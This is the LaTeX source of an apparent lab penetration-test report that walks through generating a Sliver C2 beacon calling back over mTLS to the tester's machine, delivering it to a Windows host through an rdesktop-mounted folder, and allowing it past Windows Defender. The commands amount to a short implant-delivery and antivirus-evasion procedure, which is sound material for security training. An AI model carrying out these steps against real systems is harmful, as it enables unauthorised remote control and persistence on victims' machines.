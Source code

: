 \documentclass[notitlepage]{article}
\begin{document}
 
\title{Penetration Test - Exercise 0c0}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage
\section{Attack Narrative}

    \subsection{Beacon Generation}
    To generate a beacon, we need to use the sliver program and then use the generate command. We want the beacon to call back to the kali vm, so
    we want to use our own IP in the beacon and then insert the executable into the remote desktop.
    
    \begin{verbatim}
ip a
sliver
generate beacon --mtls 172.70.184.3 --save ~/sliver.exe
    \end{verbatim}
    
    We then want to move this to a temp folder and use this folder as the mounted directory for the desktop

    \begin{verbatim}
mktemp -d
mv sliver.exe /tmp/<tmp>
rdesktop innerouter.artstailor.com -r disk:win32=/tmp/<tmp>/
    \end{verbatim}
    
    \subsection{Windows Task}
    We can attempt to run the program on the windows machine, but we need to make sure to disable live virus protection and also make sure to click on 
    the popup when we run the executable to allow the process to stay on the machine and not be scanned next time. To do this, we do the following

    \begin{verbatim}
Privacy Privacy & Security →  Windows Security →  Protection Areas →  
Virus & Threat Protection →  Under Current Threads → 
Protection History → Find executable click allow
    \end{verbatim}
\end{document}
